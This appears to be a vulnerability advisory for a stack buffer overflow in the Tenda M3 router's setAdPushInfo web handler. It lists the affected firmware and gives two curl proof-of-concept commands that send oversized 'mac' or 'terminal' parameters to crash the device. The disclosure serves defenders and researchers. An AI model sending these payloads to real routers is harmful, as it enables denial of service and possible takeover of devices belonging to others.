


# Tenda M3 setAdPushInfo Buffer Overflow

## Description

The **formSetAdPushInfo** handler in `/bin/httpd` is vulnerable to a stack overflow due to the complete absence of user input sanitization and bounds checking on parameter **mac** and **terminal** which can lead to corruption of data on the stack, hijacking of control flow, and DoS. The attack can be performed remotely.

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda M3

*   **Firmware Version**: V1.0.0.13(4903)_CN&EN

*   **Firmware Download**: https://www.tendacn.com/material/show/104888

*   **Component**: `/goform/setAdPushInfo` (formSetAdPushInfo handler)

*   **Vulnerability Type**: Buffer Overflow (CWE-120) and Memory Corruption (CWE-119)

*   **CVE ID**: Not Assigned

*   **Reported by**: Charbel


## PoC

The vulnerability is in the `memcpy()` calls with no bounds checking.



Send a POST request to the `/goform/setAdPushInfo` endpoint to trigger the stack overflow

```
curl -X POST http://172.16.182.130/goform/setAdPushInfo -d "mac=$(python3 -c 'print("A"*100000)')"
```

OR
```
curl -X POST http://172.16.182.130/goform/setAdPushInfo -d "terminal=$(python3 -c 'print("A"*100000)')"
```



